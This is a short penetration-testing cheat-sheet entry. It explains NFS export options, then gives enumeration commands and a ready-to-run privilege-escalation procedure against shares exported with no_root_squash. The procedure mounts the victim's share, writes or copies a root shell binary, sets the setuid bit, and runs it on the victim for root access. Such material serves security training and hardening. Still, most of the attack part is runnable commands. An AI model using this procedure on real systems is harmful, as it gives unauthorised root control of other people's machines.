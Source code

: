 - ro: Permit clients to Read-only access to shared directory.

- root_squash: This option Prevents file request made by user root on the client machine because NFS shares change the root user to the nfsnobody user, which is an unprivileged user account.

- no_root_squash: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implication.

- async: It will speed up transfers but can cause data corruption as NFS server doesn’t wait for the complete write operation to be finished on the stable storage, before replying to the client.

- sync:   The sync option does the inverse of async option where the NFS server will reply to the client only after the data is finally written to the stable storage.

Enumeration

```ps1
Victim


cat /etc/exports             // Do we see any no_root_squash enabled on a mounted share?

/tmp *(rw,sync,insecure,no_root_squash,no,subtree,check) 

Attacker

nmap -sV --script=nfs-showmount <victim_ip> 

```
Privilege Escalation

Attacker

```ps1

showmount -e <victim_ip>                      
mkdir /tmp/mount                                
mount -o rw,vers=2 <victim_ip>:/tmp /tmp/mount  
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mount/priv.c  
gcc /tmp/mount/priv.c -o /tmp/mount/priv
chmod +s /tmp/mount/priv

OR

showmount -e <victim_ip>   
mkdir /tmp/mount 
mount -o rw,vers=2 <victim_ip>:/tmp /tmp/mount  
cd /tmp/mount
cp /bin/bash .
chmod +s bash
```
```ps1
Victim

cd /tmp
./priv
id && whoami

OR

cd /tmp
./bash -p
id && whoami
```
